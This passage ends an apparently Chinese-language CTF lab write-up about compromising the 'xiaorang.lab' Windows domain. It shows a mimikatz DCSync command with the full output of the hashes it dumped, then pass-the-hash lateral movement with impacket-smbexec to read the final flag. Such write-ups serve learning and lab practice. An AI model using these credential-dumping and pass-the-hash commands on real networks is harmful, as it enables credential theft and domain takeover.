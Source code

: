 接下来就是常规的将域内用户的哈希dump下来

```
mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit > mimikatz.txt
```

结果

```

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:xiaorang.lab /all /csv
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502	krbtgt	3ffd5b58b4a6328659a606c3ea6f9b63	514
1000	DC01$	7408967f1fd3c2ff807232b7b5c5fc95	532480
500	Administrator	2c9d81bdcf3ec8b1def10328a7cc2f08	512
1103	WIN2016$	aae3dca76f254c52708ee076935bb533	16781312
1104	WIN19-CLIENT$	7c011200ecbe666945e465c200afcb5e	16781312
1105	Aldrich	0607f770c2f37e09a850e09e920a9f45	512

mimikatz(commandline) # exit
Bye!

```

之后就可以进行横向移动了

```
proxychains4 impacket-smbexec -hashes :2c9d81bdcf3ec8b1def10328a7cc2f08 xiaorang.lab/administrator@172.22.8.15 -codec gbk
```

![image-20250312214445451](../assets/image-20250312214445451.png)

```
type c:\users\administrator\flag\flag03.txt
```

拿到最后一个flag

```
C:\Windows\system32>type c:\users\administrator\flag\flag03.txt
 _________               __    _                  _
|  _   _  |             [  |  (_)                / |_
|_/ | | \_|.--.   .---.  | |  __  .---.  _ .--. `| |-'
    | |   ( (`\] / /'`\] | | [  |/ /__\\[ `.-. | | |
   _| |_   `'.'. | \__.  | |  | || \__., | | | | | |,
  |_____| [\__) )'.___.'[___][___]'.__.'[___||__]\__/


Congratulations! ! !

flag03: flag{410202d3-2e47-4619-a6b0-96051a985f2e}

```



这题用cs打会方便很多，但是一开始没考虑到，所以后面也一直没用。

